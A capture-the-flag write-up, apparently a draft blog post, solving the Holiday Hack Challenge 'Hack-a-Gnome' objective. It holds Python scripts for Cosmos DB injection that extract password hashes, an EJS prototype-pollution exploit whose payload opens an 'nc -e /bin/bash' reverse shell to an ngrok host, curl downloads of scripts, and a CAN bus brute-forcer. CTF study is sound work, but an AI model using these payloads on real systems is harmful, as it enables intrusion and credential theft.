

+++
date = '2025-11-30T11:47:39+01:00'
draft = true
title = 'Hack-a-Gnome'
weight = 2
+++


## Objective

| Difficulty | Description |
| ---------- | ----------- |
| 3/5 | Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun. |

## Chris Daves mission statement

> Hi, my name is Chris.
> 
> I like miniature war gaming and painting minis.
> 
> I enjoy open source projects and amateur robotics.
> 
> Hiking and kayaking are my favorite IRL activies.
> 
> I love single player video games with great stoylines.
> 
> ----
>
> Hey, I could really use another set of eyes on this gnome takeover situation.
> 
> Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!
> 
> But every system has weaknesses if you know where to look.
> 
> If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.
> 
> Ready to help me turn one of these rebellious bots against its own kind?

## Solution

### Getting access to the control panel

When opening the URL https://hhc25-smartgnomehack-prod.holidayhackchallenge.com we are presented with the following landing page: 


By inspecting the HTML source of the mainpage we found an interesting Javascript file, `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/static/script.js`. By reading it we got to know a few interesting endpoints:

| Endpoint | Description |
| -------- | ----------- |
| /register | Endpoint for registering a new user | 
| /userAvailable?username= | In use to check wheter a username is available for registion upon creating a new user |

#### Identifying the database

We identified the endpoints above, and the only endpoint taking arguments seems to be the `userAvailable` one. We were able to provoke an error message by sending in an `"` to the this endpoint like so:

```bash
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="
```

This resulted in the following error:

```json
{"error":"An error occurred while checking username: Message: {\"errors\":[{\"severity\":\"Error\",\"location\":{\"start\":44,\"end\":45},\"code\":\"SC1012\",\"message\":\"Syntax error, invalid string literal token '\\\"'.\"}]}\r\nActivityId: fc87623e-4f9b-4d3d-9b18-f56fefa1b5d9, Microsoft.Azure.Documents.Common/2.14.0"}
```

After a quick check using ChatGPT, it appears we are dealing with _Cosmos DB_ here.

#### Enumerating users

From the hints we are now to enumerate the users in the database. This seemed straight forward using _FFUF_ with a list of common names:

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -u https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=FUZZ -X GET -fr "true"
```

The feedback from the server basically states _available: true or false_, thus we easily added the `-fr` option find users not available. We quickly identify the following users:

* bruce 
* harold

#### Enumerating the database

We don't know Cosmos DB at all. But from looking at syntax examples online, every example seems to go like this: 

```sql
SELECT * FROM p WHERE p.something = something
```

From this we formed the following workflow: 

1. Identify "p" - what value could be in use here?
2. Identify fields in use, Cosmos DB doesn't have a set schema
3. Extract password, if even possible

For this excercise we decided to leave FFUF for now an move on to Python, since that is where we work the most:

```python
import requests
import urllib.parse
import string
import sys
from pprint import pprint

#
# Helper function for injection
# 
def inject(base_url: str, payload: str) -> str:
    url = base_url + urllib.parse.quote_plus(payload)

    r = requests.get(url)
    
    return r.json()

#
# Map out prefix
#
def find_prefix(url, username):
    prefix_letter = None

    for prefix in string.ascii_letters:
        payload = f'{username}" AND IS_DEFINED({prefix}.username) --'
        result = inject(base_url, payload)

        if "error" in result.keys():
        	continue

        prefix_letter = prefix
        break

    return prefix_letter

# 
# Find password field name
#
def find_password_field(url, username, prefix):
	fields = []
	with open("burp-parameter-names.txt", "r") as f:
		for line in f.readlines():
			needle = line.strip("\n")
			payload = f'{username}" AND IS_DEFINED({prefix}.{needle}) --'
			result = inject(url, payload)

			if "error" in result.keys():
				continue

			if result.get("available") is False:
				fields.append(needle)

		return fields

#
# Find digest
# 
def find_digest(base_url, prefix, candidate="", username=""):
    for c in string.ascii_lowercase + string.digits + "-":
        if c in [":"]:
            continue

        p = candidate + c
        
        payload = f'{username}" AND STARTSWITH({prefix}.digest, "{p}") --'
        result = inject(base_url, payload)

        print(payload)
        if result["available"] is False:
            print(p)
            find_digest(base_url, prefix, p, username)
            break

#
# Main logic
#
base_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="
prefix = find_prefix(base_url, "harold")
fields = find_password_field(base_url, "harold", prefix)

print("Prefix is: {prefix}")
print("Document fields is: ")
print("\n*".join(fields))

find_digest(base_url, prefix, "", "harold")
find_digest(base_url, prefix, "", "bruce")
```

From running this script we learn that the `p` we were looking for was actually `c`. Furhter we identified the following document fields:

```bash
ID
Id
USERNAME
UserName
Username
digest
id
userName
username
```

There are no "password" field, however we identified a `digest` field, which kinda is the same thing. Moving on we bruteforced the `digest` field for the two users we have found, and this is what we got: 

| Username | Digest (MD5) | Decoded | 
| -------- | ------------ | ------- |
| bruce  | d0a9ba00f80cbc56584ef245ffc56b9e | oatmeal12 |
| harold | 07f456ae6a94cb68d740df548847f459 | oatmeal!! |

The digest (passwords) were stored as MD5 - by simply visiting [Crackstation](https://crackstation.net) we decoded them easily

### Exploiting the control panel

Upon logging in to the control panel we are presented with this landingpage:


From inspecting the HTML source code and Javascript code we find the following endpoints:

| Endpoint              | Description                                                                                                                                    |
| --------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | 
| /home                 | Mainpage, contains two iframes, one for _Smart Gnome Statistics_ panel and _Gnome Control Interface_                                           |
| /stats                | _Smart Gnome Statistics_ panel                                                                                                                 |
| /control              |  _Gnome Control Interface_ - where the robot game plays out                                                                                    | 
| /register             | Endpoint for registering a new user                                                                                                            |
| /ctrlsignals?message= | This is used to communicate with backend, for instance updating the robot name. Takes an urlencoded JSON object as input to 'message' argument | 

#### Finding exploitable vector

From the endpoints we see that there is just one endpoint taking any form of input, _/ctrlsignals_. We know from the hints that we are facing prototype poisoning, and this endpoint seems to fit the bill. 

##### Uncovering the template rendering engine

By sending a single `'` we can make the system fail at parsing the input: 

```
SyntaxError: Unexpected token ' in JSON at position 0    at JSON.parse (<anonymous>)    at /app/server.js:121:33    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at next (/app/node_modules/express/lib/router/route.js:149:13)    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at /app/node_modules/express/lib/router/index.js:284:15    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)    at next (/app/node_modules/express/lib/router/index.js:280:10)    at /app/server.js:49:9
```


Provoking error message to confirm `__proto__` vulnerability in EJS templating system;

```BASH
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"toString","value":"a"}
```

This had to be sent as URL-encoded value:

```bash
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22:%22update%22,%22key%22:%22__proto__%22,%22subkey%22:%22toString%22,%22value%22:%22a%22%7D
```

By refreshing the landing page we got the following error: 

```
TypeError: Object.prototype.toString.call is not a function
    at Object.isRegExp (/app/node_modules/qs/lib/utils.js:231:38)
    at normalizeParseOptions (/app/node_modules/qs/lib/parse.js:289:64)
    at module.exports [as parse] (/app/node_modules/qs/lib/parse.js:305:19)
    at parseExtendedQueryString (/app/node_modules/express/lib/utils.js:289:13)
    at query (/app/node_modules/express/lib/middleware/query.js:42:19)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at trim_prefix (/app/node_modules/express/lib/router/index.js:328:13)
    at /app/node_modules/express/lib/router/index.js:286:9
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
```

Furter, the following payload triggers more errors:

```
{
	"action": "update",
	"key":"__proto__",
	"subkey": "escapeFn",
	"value":"{\"view options\": {\"client\": 1, \"escapeFn\": \"process.mainModule.require('child_process').exec('ls', (_, stdout, stderr) => console.log(stdout || stderr));\"}}"
}
```

Error triggered:

```
TypeError: /app/views/stats.ejs:70
    68|                 <% gnomeStats.forEach(stat => { %>
    69|                     <tr>
 >> 70|                         <td class="key-cell"><%= stat.name %></td>
    71|                         <td class="value-cell"><%= stat.value %></td>
    72|                     </tr>
    73|                 <% }); %>

escapeFn is not a function
    at eval (/app/views/stats.ejs:15:16)
    at Array.forEach (<anonymous>)
    at eval (/app/views/stats.ejs:12:19)
    at stats (/app/node_modules/ejs/lib/ejs.js:691:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:272:36)
    at exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/app/node_modules/express/lib/response.js:1049:7)
```

Endpoint has an error that gives away an flaw in Json.parse

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token _ in JSON at position 0<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at /app/server.js:121:33<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/route.js:149:13)<br> &nbsp; &nbsp;at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /app/node_modules/express/lib/router/index.js:284:15<br> &nbsp; &nbsp;at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/index.js:280:10)<br> &nbsp; &nbsp;at /app/server.js:49:9</pre>
</body>
</html>
```


python3 -c 'import pty;pty.spawn("/bin/bash")'

Remember to refresh the main page for the reverse shell to work!!!

NOTE: SOLVE THIS USING EDGE!!!!

curl -o test.py  https://scarabaeiform-prolixly-odin.ngrok-free.dev/test.sh
curl -o cb.py  https://scarabaeiform-prolixly-odin.ngrok-free.dev/cb.py


General workflow from start to finish:

1. In the webapp, inspect all endpoint
2. Find the endpoint where you can set data
3. Provoke error messages to find the rendering engine (EJS)
4. See if it is possible to set __proto__

Enabling shell
5. On endpoint set client = 1
6. On endpoint set debug = 1
7. Set up NGROK netcat reverse
8. Plant payload for reverse shell using the NGROK address and port
9. Refresh main page

In spawned shell:
10. Privilege escalate using python to get a fancy bash shell
11. Inspect canbus_client.py
12. Inspect README.md

Identifying missing HEX code
13. Set up NGROK web frontend
14. Spin up Python webserver
15. Serve HEX bruteforce python script
16. Run bruteforce script whilst observing if the robot moves


## Solution

### Web application

### Identifying control codes

### Robot


### Web application

```python
import requests
import json
import html
import urllib.parse
from bs4 import BeautifulSoup

#
# Login
# 
login_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/login?id=dfbd809f-8d6a-4500-87ba-c6e29b90f34c"
creds = { "username": "bruce", "password": "oatmeal12" }

s = requests.Session()
r = s.post(login_url, data=creds)

#
# Trigger JSON parse error
#

error_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message='"
payload_r = s.get(error_url)

print(f"URL: {payload_r.url}")

soup = BeautifulSoup(payload_r.text, "html.parser")
raw_text = soup.pre.get_text() 
decoded_text = html.unescape(raw_text)


print("\n===========================================")
print("Step 1. Provoke Error message")
print("===========================================\n")
print(decoded_text)

#
# Staging
#
print("\n===========================================")
print("Step 2. Staging")
print("===========================================")

for subkey in ["debug", "client"]:
    print(f"\n== Staging {subkey}\n")

    payload = {
        "action": "update",
        "key": "__proto__",
        "subkey": subkey,
        "value": 1
    }

    payload_encoded = urllib.parse.quote_plus(json.dumps(payload))
    proto_url = f"https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={payload_encoded}"
    payload_r = s.get(proto_url)
    print(f"URL: {payload_r.url}")
    print(payload_r.text)

print("\n===========================================")
print("Step 3. Weaponizing")
print("===========================================\n")

payload = {
    "action": "update",
    "key": "__proto__",
    "subkey": "escapeFunction",
    "value": "JSON.stringify; process.mainModule.require('child_process').exec('nc -e /bin/bash 4.tcp.eu.ngrok.io 19342;sleep 10000000')"
}


payload_encoded = urllib.parse.quote_plus(json.dumps(payload))
proto_url = f"https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={payload_encoded}"
payload_r = s.get(proto_url)
print(f"URL: {payload_r.url}")
print(payload_r.text)

#
# Smart Gnome Control Center - Smart Gnome Statistics panel
# 
print("\n===========================================")
print("Step 4. Stats page")
print("===========================================\n")

stats_panel_url = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats"
stats_r = s.get(stats_panel_url)
print(stats_r.text)
```

Output: 

```
===========================================
Step 1. Provoke Error message
===========================================

SyntaxError: Unexpected token ' in JSON at position 0    at JSON.parse (<anonymous>)    at /app/server.js:121:33    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at next (/app/node_modules/express/lib/router/route.js:149:13)    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)    at /app/node_modules/express/lib/router/index.js:284:15    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)    at next (/app/node_modules/express/lib/router/index.js:280:10)    at /app/server.js:49:9

===========================================
Step 2. Staging
===========================================

== Staging debug

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22debug%22%2C+%22value%22%3A+1%7D
{"type":"message","data":"success","message":"Updated __proto__.debug to 1"}

== Staging client

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22client%22%2C+%22value%22%3A+1%7D
{"type":"message","data":"success","message":"Updated __proto__.client to 1"}

===========================================
Step 3. Weaponizing
===========================================

URL: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A+%22update%22%2C+%22key%22%3A+%22__proto__%22%2C+%22subkey%22%3A+%22escapeFunction%22%2C+%22value%22%3A+%22JSON.stringify%3B+process.mainModule.require%28%27child_process%27%29.exec%28%27nc+-e+%2Fbin%2Fbash+4.tcp.eu.ngrok.io+19342%3Bsleep+10000000%27%29%22%7D
{"type":"message","data":"success","message":"Updated __proto__.escapeFunction to JSON.stringify; process.mainModule.require('child_process').exec('nc -e /bin/bash 4.tcp.eu.ngrok.io 19342;sleep 10000000')"}

===========================================
Step 4. Stats page
===========================================

... snip ...
```
#### Setup attack infrastructure

In order to conduct this attack we had to set up the following infrastructure using Kali in WSL (in total four instances): 

| Command | Public | Description |
| ------- | ------ | -------|
| `ngrok tcp 8501`  | Yes | Public exposed reverse shell port through Ngrok |
| `nc -lnvp 8501`   | No  | Local (attacking machine) listening port using Netcat mapped to public Ngrok bridge |
| `ngrok http 8001` | Yes | Public exposed web server for serving scripts |
| `python3 -m http.server 8001` | No | Local (attacking machine) web server mapped to public Ngrok bridge |

The communication will then look like this: 



### Operating the reverse shell

With our payload in order it quickly called back through our infrastructe and we got shell. We immediatly started to snoop around: 


The `canbus_client.py` caught our eye: 


Turns out this was a script to interact with the CAN bus and contained a COMMAND_MAP with codes we recognized from the error messages for the bot in the Gnome Control Center. All of these codes leads to errors and no wonder because the comment in code mentions they are wrong. We then turned our attention to the _README.md_ file: 


A whole lot of text, but only the very last part is of interest. It basically state the codes to move the robot is unknown at the moment. So we were left alone to figure these out.

### Enumerating control codes

In order to find the correct control codes we took basis in the Python script on the server, uploaded it to ChatGPT and asked ChatGPT to make it into a bruteforcing script. This script was then uploaded back onto the server using the command: 

```
curl -o cb.py  https://scarabaeiform-prolixly-odin.ngrok-free.dev/cb.py
```

We had to run this script in several iterations due to the amount of HEX codes involved. For each iteration we kept an eye on the robot in `Gnome Control Interface` for any movement. For each iteration we shortened the range and at the end we ended up with bruteforcing the _0x200-0x206_ range. Thus the script below is the final revision for that range: 

```python
#!/usr/bin/env python3
import time
import struct
import can

IFACE = "gcan0"

RPM_LEFT_ID  = 0x310
RPM_RIGHT_ID = 0x311

# LIMIT THE SEARCH RANGE HERE (end is exclusive)
SCAN_START = 0x200
SCAN_END   = 0x206   # includes 0x205

def int16_be(b: bytes) -> int:
    return struct.unpack(">h", b[:2])[0]

def read_rpm_snapshot(bus, window_s=0.20):
    end = time.time() + window_s
    left = right = None
    while time.time() < end:
        msg = bus.recv(timeout=0.02)
        if not msg:
            continue
        if msg.arbitration_id == RPM_LEFT_ID and len(msg.data) >= 2:
            left = int16_be(msg.data)
        elif msg.arbitration_id == RPM_RIGHT_ID and len(msg.data) >= 2:
            right = int16_be(msg.data)
    return left, right

def rpm_changed(before, after, threshold=30):
    if None in before or None in after:
        return False
    return abs(after[0] - before[0]) >= threshold or abs(after[1] - before[1]) >= threshold

def send_frame(bus, arb_id, data: bytes, extended=False):
    msg = can.Message(arbitration_id=arb_id, data=data, is_extended_id=extended)
    bus.send(msg)

def scan(bus, start, end, payloads, extended=False, rate_sleep=0.03, verbose_every=1):
    hits = []
    _ = read_rpm_snapshot(bus, 0.30)  # prime

    attempt = 0
    for arb_id in range(start, end):
        for data in payloads:
            attempt += 1
            if verbose_every and attempt % verbose_every == 0:
                # OUTPUT EXACTLY WHAT WE'RE TRYING
                print(f"TRY id=0x{arb_id:03X} dlc={len(data)} data={data.hex() or '(empty)'}")

            before = read_rpm_snapshot(bus, 0.12)
            try:
                send_frame(bus, arb_id, data, extended=extended)
            except can.CanError:
                continue
            after = read_rpm_snapshot(bus, 0.22)

            if rpm_changed(before, after):
                print(f"HIT id=0x{arb_id:03X} data={data.hex() or '(empty)'} RPM {before}->{after}")
                hits.append((arb_id, data, before, after))

            time.sleep(rate_sleep)
    return hits

def main():
    bus = can.interface.Bus(channel=IFACE, interface="socketcan", receive_own_messages=False)

    payloads = [
        b"",         # empty
        b"\x00",
        b"\x01",
        b"\xFF",
        b"\x00\x00",
        b"\x14\x14", # +20,+20
        b"\xEC\xEC", # -20,-20
        b"\xEC\x14", # left -, right +
        b"\x14\xEC", # left +, right -
    ]

    print(f"Scanning standard IDs 0x{SCAN_START:03X}-0x{SCAN_END-1:03X} ...")
    hits = scan(
        bus,
        start=SCAN_START,
        end=SCAN_END,
        payloads=payloads,
        extended=False,
        rate_sleep=0.03,
        verbose_every=1,   # set to e.g. 10 if too chatty
    )

    print(f"\nDone. Hits: {len(hits)}")
    for arb_id, data, before, after in hits[:50]:
        print(f"  0x{arb_id:03X} {data.hex() or '(empty)'} {before}->{after}")

    bus.shutdown()

if __name__ == "__main__":
    main()
```

After toying with the input to the Python script on the server, we finally mapped the new HEX values like this: 

| Button | Canbus command id | New Value | 
| ------ | ----------------- | --------- |
| w | 0x656 | 0x201 |
| a | 0x658 | 0x203 |
| s | 0x657 | 0x202 |
| d | 0x659 | 0x204 |

We grabbed the Python script from the server to our attacking machine, edited it according to the mapping and reuploaded it under a new name (_cb.py_). This enabled us to navigate our robot through the maze using this command and directions:

```
python3 cb.py <direction>
```

Leading us to solving the objective: 


## Resources

This objective required extensive reading up on the whole `__proto__` attack vector. We found these resources of great value for our research:

* https://security.snyk.io/vuln/SNYK-JS-EJS-2803307
* https://blog.themikkel.dk/ddc-regionale-2025-writeup/
* https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/
* https://www.nodejs-security.com/blog/understanding-and-preventing-prototype-pollution-in-nodejs
* https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
* https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325
* https://medium.com/@albertoc_91016/prototype-pollution-in-open-source-libraries-exploiting-rce-in-ejs-ae93016630a3
* https://ejs.co/#docs

## Chris Davis mission debrief

> Excellent work! You've successfully taken control of the gnome - look at that interface responding to our commands now.
>
> Time to turn this little rebel against its own manufacturing operation and shut them down for good!


### Hints 

| Hint | 
| ---- |
| Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message. |
| I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again). |
| There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it. |
| Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack. |
| Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages. |
| Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the canbus_client.py file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI. |